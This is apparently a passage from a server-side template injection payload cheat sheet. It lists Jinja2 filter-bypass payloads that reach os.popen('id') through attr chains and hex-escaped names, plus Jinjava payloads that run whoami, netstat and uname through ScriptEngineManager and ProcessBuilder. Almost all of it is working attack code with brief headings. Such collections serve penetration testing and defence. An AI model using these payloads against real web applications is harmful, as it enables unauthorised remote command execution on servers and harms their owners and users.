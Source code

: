 ```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

Bypassing most common filters ('.','_','|join','[',']','mro' and 'base') by https://twitter.com/SecGus:
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Jinjava

[Official website](https://github.com/HubSpot/jinjava)
> Java-based template engine based on django template syntax, adapted to render jinja templates (at least the subset of jinja in use in HubSpot content).

### Jinjava - Basic injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command execution

Fixed by https://github.com/HubSpot/jinjava/pull/230

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---